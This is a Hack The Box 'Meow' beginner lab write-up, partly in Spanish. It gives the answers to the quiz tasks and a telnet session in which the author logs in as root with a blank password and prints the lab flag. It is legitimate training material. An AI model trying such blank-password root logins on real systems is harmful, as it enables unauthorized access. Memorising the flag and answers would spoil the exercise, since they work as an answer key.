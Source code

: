 ```yaml
---
title: Meow
date: 2025-04-2 12:00:00 +0200
categories: [writeup, hackthebox]
tags: [hackthebox, meow]     
image:
    path: https://www.hackthebox.com/images/logo-htb.svg
    alt: Hack The Box
---
```

Este primer reto de HackTheBox es una especie de examen de para comenzar en esta plataforma, 
consiste en una serie de preguntas y tareas a completar. Conectarse a la VPN que proporcionan y responder a las preguntas, 
para acabar realizando una captura de bandera simple. 

To attack the target machine, you must be on the same network.
Connect to the Starting Point VPN using one of the following options.

It may take a minute for HTB to recognize your connection.
If you don't see an update after 2-3 minutes, refresh the page.
Connect to Pwnbox

Connect using Pwnbox

RECOMMENDED

A preconfigured, browser-based virtual machine with all the hacking tools you need pre-installed.
Free 2h of Pwnbox - Upgrade to VIP+ for Unlimited Access
Connect to OVPN

Connect using OpenVPN

Use your own machine for hacking. Download your VPN configuration and connect from your own environment.
Having Trouble? - Introduction to Lab Access

Spawn Machine

Spawn the target machine and the IP will show here

Task 1

What does the acronym VM stand for?

>virtual machine

Task 2

What tool do we use to interact with the operating system in order to issue commands via the command line, such as the one to start our VPN connection? It's also known as a console or shell.

>terminal

Task 3

What service do we use to form our VPN connection into HTB labs?

>openvpn

Task 4

What tool do we use to test our connection to the target with an ICMP echo request?

>ping 

Task 5

What is the name of the most common tool for finding open ports on a target?

>nmap

Task 6

What service do we identify on port 23/tcp during our scans?

>telnet

Task 7

What username is able to log into the target over telnet with a blank password?

>root

Submit Flag

``` shell
pablo☠office meow$ telnet 10.129.76.225 
Trying 10.129.76.225...
Connected to 10.129.76.225.
Escape character is '^]'.

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: root

root@Meow:~# ls
flag.txt  snap
root@Meow:~# cat flag.txt 
b40abdfe23665f766f9c61ecba8a4c19
```

Submit root flag 

Una manera muy elegante de asegurarte de que los usuarios tengan un mínimo de nivel y conocimiento para iniciarte en tu plataforma. 

[https://www.hackthebox.com/achievement/machine/2336390/394](https://www.hackthebox.com/achievement/machine/2336390/394)